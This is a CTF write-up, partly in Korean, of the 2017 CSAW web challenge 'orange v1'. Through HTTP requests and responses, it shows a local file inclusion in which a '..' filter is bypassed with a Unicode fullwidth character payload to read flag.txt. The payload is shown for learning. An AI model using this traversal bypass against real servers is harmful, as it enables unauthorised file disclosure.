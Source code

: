 # [2017_CSAW] \[WEB] orange v1

###Solution

```
http "http://web.chal.csaw.io:7311/index.php?path=orange.txt"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 14
Date: Wed, 20 Sep 2017 00:48:08 GMT

i love oranges
```

```
http "http://web.chal.csaw.io:7311/index.php?path=./orange.txt"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 14
Date: Wed, 20 Sep 2017 00:48:19 GMT

i love oranges
```

LFI 문제로 보입니다. 상위 폴더에 있는 flag.txt를 읽어야 합니다.



```
http "http://web.chal.csaw.io:7311/index.php?path=./"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 412
Date: Wed, 20 Sep 2017 00:48:23 GMT

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /poems/./</title>
<body>
<h2>Directory listing for /poems/./</h2>
<hr>
<ul>
<li><a href="burger.txt">burger.txt</a>
<li><a href="haiku.txt">haiku.txt</a>
<li><a href="orange.txt">orange.txt</a>
<li><a href="ppp.txt">ppp.txt</a>
<li><a href="the_red_wheelbarrow.txt">the_red_wheelbarrow.txt</a>
</ul>
<hr>
</body>
</html>
```

디렉토리 리스팅이 가능하고



```
http "http://web.chal.csaw.io:7311/index.php?path=../poems/orange.txt"
HTTP/1.1 403 Forbidden
Connection: keep-alive
Date: Wed, 20 Sep 2017 00:48:36 GMT
Transfer-Encoding: chunked

WHOA THATS BANNED!!!!
```

`..` 문자는 필터링 됩니다.



HITCON 팀이 블랙햇에서 발표된 내용을 참고하여 풀었습니다. 유니코드 문자를 이용하면 필터링을 우회할 수 있습니다. (https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```
http "http://web.chal.csaw.io:7311/index.php?path=.%EF%BC%AE/flag.txt"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 51
Date: Wed, 20 Sep 2017 00:54:08 GMT

flag{thank_you_based_orange_for_this_ctf_challenge}
```

